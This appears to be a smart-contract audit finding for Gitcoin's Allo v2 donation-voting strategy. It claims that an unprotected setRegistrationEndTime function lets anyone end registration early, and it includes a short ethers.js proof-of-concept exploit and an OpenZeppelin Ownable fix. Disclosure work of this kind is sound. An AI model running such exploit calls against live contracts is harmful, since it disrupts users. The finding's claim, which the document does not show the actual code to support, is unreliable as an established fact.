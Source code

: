Amateur Amber Mantis

high

# DonationVotingMerkleDistributionBaseStrategy.sol Vulnerability

The DonationVotingMerkleDistributionBaseStrategy contract has an access control vulnerability from this function, registrationEndTime.
There is a Denial Of Service Vulnerability where any address can use this contract's setRegistrationEndTime method to change the registrationEndTime to any value. By adjusting the registrationEndTime to the current block timestamp or a previous time, a malicious actor might take advantage of this to prematurely stop the registration period.

## Vulnerability Detail

The contract's regular operation may be seriously disrupted if a hostile actor has complete control over the registrationEndTime. 
By prematurely ending the registration time, it can prohibit legitimate users from enrolling, effectively resulting in a Denial of Service.


## Impact

If the contract is used for crucial operations like token sales, voting, or any other activity requiring a registration period, this might possibly have a big impact. 
Implementing appropriate access control methods is therefore essential to preventing unauthorized modification of vital contract parameters.

## Code Snippet

The following blocks of code are vulnerable:

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/donation-voting-merkle-base/DonationVotingMerkleDistributionBaseStrategy.sol#L77C1-L85C1

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/donation-voting-merkle-base/DonationVotingMerkleDistributionBaseStrategy.sol#L116C1-L122C1

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/donation-voting-merkle-base/DonationVotingMerkleDistributionBaseStrategy.sol#L157C1-L160C1

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/donation-voting-merkle-base/DonationVotingMerkleDistributionBaseStrategy.sol#L275C1-L278C1

The following PoC will attempt to exploit the vulnerability:

const ethers = require('ethers');

async function exploit() {
    // Connect to the provider (e.g., a local Ganache instance)
    const provider = new ethers.providers.JsonRpcProvider('http://localhost:8545');

    // The attacker's wallet
    const attackerWallet = new ethers.Wallet('attacker-private-key', provider);

    // The address of the vulnerable contract
    const contractAddress = 'contract-address';

    // The ABI of the vulnerable contract
    const contractABI = [
        'function setRegistrationEndTime(uint256 _endTime) public',
        'function register() public'
    ];

    // Connect to the contract
    const contract = new ethers.Contract(contractAddress, contractABI, attackerWallet);

    // Set the registration end time to the current block timestamp
    const tx = await contract.setRegistrationEndTime(Math.floor(Date.now() / 1000));
    await tx.wait();

    console.log('Registration period ended prematurely');
}

exploit();


## Tool used

REMIX IDE
Manual Review
VS Code
Foundry

## Recommendation
Implement access control measures to limit who can call the setRegistrationEndTime method in order to counteract this issue. 
The Ownable or AccessControl contracts offered by OpenZeppelin could be used to fix this.

Here is the logic to fix this issue:

pragma solidity 0.8.19;

import "@openzeppelin/contracts/access/Ownable.sol";

contract Registration is Ownable {
    uint256 public registrationEndTime;

    function setRegistrationEndTime(uint256 _endTime) public onlyOwner {
        registrationEndTime = _endTime;
    }

    function register() public {
        require(block.timestamp <= registrationEndTime, "Registration has ended");
        // Registration logic here
    }
}